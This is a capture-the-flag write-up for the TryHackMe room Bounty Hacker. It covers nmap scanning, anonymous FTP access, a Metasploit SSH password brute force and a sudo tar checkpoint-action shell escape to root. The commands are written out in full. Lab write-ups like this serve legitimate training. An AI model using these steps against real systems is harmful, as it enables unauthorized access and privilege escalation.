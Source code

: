 #Bounty Hacker

This is a writeup for the TryHackMe room Bounty Hacker.

We'll start off with an nmap scan.

```
nmap -sV -sC $ip
```

![nmap_scan](docs/assets/images/nmap_scan_img.png)


This scan shows us that three ports are open: port 21, port 22 and port 80. Let's check the website.

![web_page](docs/assets/images/webpage.png)

Nothing particularly interesting there, just some stuff to do with Cowboy Bebop.

Port 21 is used for FTP so let's check that.

```
ftp $ip
```

When prompted for a name input **anonymous**. Using the command `ls` we can see the files locks.txt and tasks.txt, let's use the command `get` to download those.

![ftp_pic](docs/assets/images/ftp.png)

![text_files](docs/assets/images/textfiles.png)

It seems that locks.txt is a list of passwords and task.txt contains a possible username **lin**. The name and these passwords can be used to bruteforce the ssh login, you can use metasploit for this.

Start metasploit with `msfconsole`, then we can take a moment to appreciate the the ascii art and the enter the command `use auxiliary/scanner/ssh/ssh_login`.

![metasploit1](docs/assets/images/metasploit1.png)

We then nedd to set the options **rhosts** `set rhosts $ip`, **username** `set username lin` and **pass_file** `set pass_file /path/to/locks.txt`.

Then type `run` and metasploit will bruteforce the ssh login for us.

![metasploit2](docs/assets/images/metasploit2.png)

With this login we can ssh into the server `ssh lin@$ip` and get the user flag.

![user_flag](docs/assets/images/flag1.png)

Time to enumerate priv-esc vectors, first let's try `sudo -l`. This shows us that we can use the tar command with root privileges so let's check GTFOBins.

![sudo-l](docs/assets/images/sudo-l.png)

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`, to get root.

![root_flag](docs/assets/images/root.png)
